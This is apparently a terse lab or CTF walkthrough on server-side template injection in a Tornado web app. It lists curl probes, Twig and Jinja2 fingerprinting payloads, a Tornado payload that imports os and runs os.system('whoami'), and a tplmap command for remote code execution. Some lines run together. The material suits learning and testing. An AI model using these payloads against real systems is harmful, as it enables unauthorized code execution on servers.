

SSTI Tornado Template Engine
1. Send some test characters to check the response
2. As the diagram of PortsWigger suggest, try some payloads: PortsSwigger

3. Test some general payloads:
curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteamcurl -X POST -d 'email={{7*7}}' http://<TARGET IP>:<PORT>/jointheteam
So, according to the diagram, we should be dealing with a Twig or Jinja2 template engine....
BUT WE WILL SEE THAT IS NOT LIKE THAT
4. Try some specific payloads for Twig or Jinja2
◇ Twig
{{constant('Twig_Environment::VERSION')}}
{{_self.env.display("TEST")}}

◇ Jinja2
{{config.items()}}
{{ [].class.base.subclasses() }}5.
No methodology is bulletproof.
The WebApplication (we have seen from point 3 is vulnerable), now we need to find the Template Engine Used
◇ Tordado
{% import foobar %} ---> Error
{% import os %} ---> Processed but no output
{% import os %}{{os.system('whoami')}} ---> Processed with output 0Vulnerable
6. RCE on Tornado Template Engine
./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah